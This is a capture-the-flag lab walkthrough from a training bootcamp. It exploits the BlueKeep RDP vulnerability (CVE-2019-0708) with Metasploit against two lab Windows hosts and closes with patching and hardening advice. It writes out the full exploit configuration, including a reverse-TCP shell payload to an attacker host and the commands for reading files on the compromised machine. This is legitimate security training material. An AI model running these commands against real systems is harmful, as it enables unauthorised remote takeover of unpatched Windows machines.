## VULNERABILITY ASSESSMENT ##
SUMMARY
I happened to be a trainer @isaca kenya chapter for inter-varsity bootcamp
alongside @emilymuraguli a security reseacher from GT bank kenya on
vulnerability scanning and exploitation labs hosted by @cyberranges platform.
This is a walkthrough on exploiting bluekeep windows vulnerability with
metasploits meterpreter payload on cyber ranges.
 BlueKeep (CVE-2019-0708) exists within the Remote Desktop Protocol (RDP)
used by the Microsoft Windows OSs listed below
• Windows 2000VULNERABILITY
• Windows Vista
• Windows XP
• Windows 7
• Windows Server 2003
• Windows Server 2003 R2
• Windows Server 2008
• Windows Server 2008 R2
RDP protocal - is basically an online computer (physical computer) located in any
location in the world that you can access it with remote desktop
connection software.
meterpreter- advanced payload in metasploit than can perform a spefic function.
Its dynamic in nature so it can be scripted on the fly.
Its incredibly steathy since it lives in the memory of the target
and its extremely hard to detect or trace using forensic tools.
An attacker can exploit this vulnerability to perform remote code execution
on an unprotected system.
An attacker can send specially crafted packets to one of these operating
systems that has RDP enabled.
After successfully sending the packets, the attacker would have the ability
to perform a number of actions:
• establishing an encrypted communication between your system and the
target
• Dump password hashes from the target system
• Search for files on the target system
• upload files
• take webcam shots.
This exploit, which requires no user interaction, must occur before authentication
to be successful.
BlueKeep is considered “wormable” because malware exploiting this vulnerability on
a system could propagate to other vulnerable systems; thus, a BlueKeep exploit
would be capable of rapidly spreading in a fashion similar to the WannaCry malware
attacks of 2017.
So lets exploit Bluekeep with metasploit to get shell and find a flags on the
targets below.
(Flag format is flag{}, you'll know it when you see it ). Targets
1.Windows server 2008 -(remoteserver) 192.168.125.100
target 1
2.Wndows7 - (RemoteClient) 192.168.125.105
target 2
Objectives
1 Launch services and open web shell or SSH into attacker machine
with open vpn. I will use web shell for this case.
 2.Exploit BlueKeep vulnerability using metasploit to gain admin access on the two systems.
Windows Server 2008:
Fire metasploit
this command launches metasploit:
 this command returns two exploits
 the command below uses the second exploit
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
the exploit is activated as seen in the red color
the command above gives more information about the exploit we selected
set RHOSTS 192.168.125.100
set LHOSTS 192.168.125.110
set LPORT 4444
set RPORT 3389
set payload windows/x64/shell/reverse_tcp
set TARGET 1
show options
show targets
the commands above sets remote (windows server),
local host (attacker), local port,remote
port, the payload and the target respectively.
Then
show option command indicates
if all required options for the exploit
have been met,
show target will indicate if the target
that has been set to 1.
any of the two commands tries to get a shell by
exploting the vulnerability
woop woop we get a shell.
remember the challenge is to get flag
in administrators desktop
dir
cd /users/administrator/desktop
dir
Type flag.txt
once in the shell type dir to view files and directories,
then navigate to the adminstrators desktop folder.
use the dir command command to view files, you notice
a file called flag.txt
Type flag.txt  woop woop you have flag. WINDOWS 7 For this host repeat the same process but remember to
change the remote host to windoes 7 (192.168.125.105) and the
target to 2.
set RHOSTS 192.168.125.105
set LHOSTS 192.168.125.110
set LPORT 4444
set RPORT 3389
set payload windows/x64/shell/reverse_tcp
set TARGET 2
show options
show targets
exploit
the challenge still remains get flag in the adminstrators desktop
 locate and navigate to the administartors desktop and show files
dir
cd /users/administrator/desktop
dir
Type flag.txt
you will see a file named flag.txt
 Type flag.txt  woop woop we have the flag kudos you managed the labs.
MIGATIONS
• Install available patches- Microsoft has released security updates to patch this vulnerability,
microsoft has also released patches for a number of OSs that are no longer officially supported,
including Windows Vista, Windows XP, and Windows Server 2003 and
as always, adminstators should test patches before installing.
• For OSs that do not have patches or systems that cannot be patched,
other mitigation steps can be used to help protect against BlueKeep.
• Upgrade end-of-life (EOL) OSs. Consider upgrading any EOL OSs no longer
supported by Microsoft to a newer, supported OS, such as Windows 10.
• Disable unnecessary services. Disable services not being used by the OS,
this best practice limits exposure to vulnerabilities.
• Enable Network Level Authentication. Enable Network Level Authentication
in Windows 7, Windows Server 2008, and Windows Server 2008 R2.
Doing so forces a session request to be authenticated and effectively
mitigates against BlueKeep, as exploit of the vulnerability requires
an unauthenticated session.
• Block Transmission Control Protocol (TCP) port 3389 at the enterprise perimeter firewall.
Because port 3389 is used to initiate an RDP session,
blocking it prevents an attacker from exploiting BlueKeep from outside the user’s network.
However, this will block legitimate RDP sessions and may not prevent unauthenticated sessions
from being initiated inside a network.
note Bluekeep is a RDP vulnerability :- (vulnerabilities allow an unauthenticated adversary to pull off remote code execution on a server running RDS.
In plain words, these vulnerabilities can put the whole enterprise network at risk. The only rescue is to apply software updates with patches once they are available).
below is the whole presentation on scanning and exploiting vulnerabilities.